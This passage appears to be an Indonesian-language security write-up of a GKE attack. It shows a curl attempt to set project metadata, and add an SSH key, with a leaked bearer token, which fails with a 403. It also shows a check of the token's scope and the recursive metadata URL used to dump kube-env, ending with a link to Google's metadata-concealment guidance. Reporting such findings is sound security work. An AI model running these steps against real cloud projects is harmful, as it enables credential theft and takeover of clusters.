 Can I add my SSH key using the leaked token? No

```
curl -X POST "https://www.googleapis.com/compute/v1/projects/███/setCommonInstanceMetadata" -H "Authorization: Bearer ██████████████" -H "Content-Type: application/json" --data '{"items": [{"key": "0xACB", "value": "test"}]}'
```

```
{
 "error": {
  "errors": [
   {
    "domain": "global",
    "reason": "forbidden",
    "message": "Required 'compute.projects.setCommonInstanceMetadata' permission for 'projects/███████'"
   },
   {
    "domain": "global",
    "reason": "forbidden",
    "message": "Required 'iam.serviceAccounts.actAs' permission for 'projects/███████'"
   }
  ],
  "code": 403,
  "message": "Required 'compute.projects.setCommonInstanceMetadata' permission for 'projects/████████'"
 }
}
```

attacker mengecek token dan mendapati bahwa token tidak mengeizinkan **read/write**

```
curl "https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=██████████████████"
```

```
{
 "issued_to": "███████",
 "audience": "███",
 "scope": "https://www.googleapis.com/auth/cloud-platform",
 "expires_in": 1307,
 "access_type": "offline"
}
```

#### Dumping kube-env

attacker membuat toko baru dan _pull_

http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/?recursive=true&alt=json

Metadata concealment

https://cloud.google.com/kubernetes-engine/docs/how-to/metadata-concealment
